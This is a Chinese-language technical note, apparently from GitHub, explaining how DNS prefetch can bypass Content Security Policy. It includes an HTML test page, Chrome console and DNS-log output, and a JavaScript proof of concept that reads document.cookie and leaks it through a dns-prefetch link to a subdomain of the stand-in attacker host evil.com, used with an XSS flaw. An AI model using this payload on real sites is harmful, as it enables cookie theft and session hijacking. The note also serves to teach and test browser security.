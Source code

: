#### 绕过CSP 方法1 - DNS prefetch

* 绕过原理 - CSP本来就不会完全限制DNS prefetch机制
  * CSP3有`prefetch-src`指令 可限制link标签的src的源 href的源
* 绕过过程
  * 攻击者构造输入 - 找到一处XSS漏洞 能够执行JavaScript脚本 但因严格的CSP,导致无法将数据(cookie等)发送给攻击者
  * 浏览器执行策略 - 浏览器执行相对严格的CSP策略`Content-Security-Policy: default-src 'self'`也无法限制DNS prefetch机制
  * 监听 - 攻击者在evil.com上记录DNS请求 即可得到数据(cookie等)
* 结论 - 不够严格的CSP 可被绕过实现数据泄露


实验：在 https://jsbin.com 中粘贴以下代码，进行测试
```html
<html>
<head>
  <!-- CSP -->
  <meta http-equiv="Content-Security-Policy" content="default-src 'none';prefetch-src 'self';">
</head>
<body>
  <!-- DNS prefetching test -->
<link rel="dns-prefetch" href="//111dns-prefetch-href.evil.com">
<link rel="dns-prefetch" src="//222dns-prefetch-src.evil.com">
<link rel="prefetch" href="//333prefetch-href.evil.com">
<link rel="prefetch" src="//444prefetch-src.evil.com"> 
</body>
</html>
```

测试结果: 

在chrome浏览器(版本 79.0.3945.88)中 访问 `jsbin.com`(该网站设置了CSP)
```
开发者模式 console中的内容如下:
Refused to prefetch content from 'https://333prefetch-href.evil.com/' because it violates the following Content Security Policy directive: "default-src 'none'". Note that 'prefetch-src' was not explicitly set, so 'default-src' is used as a fallback.

可知 第3种link标签会被jsbin.com设置的CSP阻止:   <link rel="prefetch" href="//333prefetch-href.evil.com">
```

然而第1种link标签 `<link rel="dns-prefetch" href="//111dns-prefetch-href.evil.com">`能够"bypass" jsbin.com设置的CSP 向evil.com发送数据.

`evil.com`成功接收到`jsbin.com`(该网站设置了CSP)发出的DNS请求的数据:
```
The Collaborator server received a DNS lookup of type A for the domain name :
111dns-prefetch-href.evil.com
```

JavaScript PoC - 实测chrome浏览器(版本 79.0.3945.88)中 可利用`vul.com`(该网站设置了CSP)的存储型XSS漏洞，"绕过"其CSP 获取到cookie

原理:构造以下代码并执行. 作用是创建link标签并添加到body dom解析该标签时 就会以dns-prefetch机制发出DNS请求(携带数据)到`evil.com`

```javascript
var evildomain = "evil.com";
l=document.createElement('link');
document.body.appendChild(l);
l.rel="dns-prefetch";
var data1 = document.cookie.substring(1,2);//取全部或部分cookie 注意:如果data1字符串中带有分号空格等字符 需要处理以符合域名命名规范
l.href = "//" + data1 + "." + evildomain;
```
